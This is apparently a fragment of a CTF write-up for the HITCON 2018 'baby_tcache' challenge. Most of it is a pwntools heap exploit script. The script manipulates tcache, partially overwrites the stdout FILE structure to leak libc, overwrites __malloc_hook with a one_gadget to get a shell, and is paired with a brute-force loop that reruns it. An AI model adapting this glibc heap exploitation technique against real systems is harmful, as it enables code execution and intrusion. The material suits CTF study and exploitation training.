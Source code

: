 ```python
add(0x18,'\n')#6
add(0x80,'\n')#7

for x in range(6):
	free(x)
add(0x60,'\n')#0
free(0)
free(6)
free(9)
free(7)
free(8)


add(0x6f0,'\n')#0

add(0x20,'\n')#1
add(0x50,'\n')#2

add(0x100,'\x60\x07\xdd')#3

add(0x60,"\n")#4
gdb.attach(p)
add(0x60,p64(0xfbad1800)+p64(0)*3+'\x00')#5

p.read(8)
base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd18b0-0x7ffff79e4000)
log.warning(hex(base))
free(4)
free(3)

libc.address=base
add(0x100,p64(libc.symbols['__malloc_hook']-35))
add(0x100,"\n")
one=base+0x10a38c
add(0x100,'\x00'*35+p64(one))

cmd(1)
p.sendlineafter("ize:",'\n')
p.interactive()


```
partial write 了 3byte 应该是 256*16次有一次成功...
我测试的运气超好...20秒钟就成功了
```sh
for x in `seq 4096`;do
	python exp.py
done
```

[1]:https://github.com/n132/Watermalon/tree/master/Hitcon_2018/baby_tcache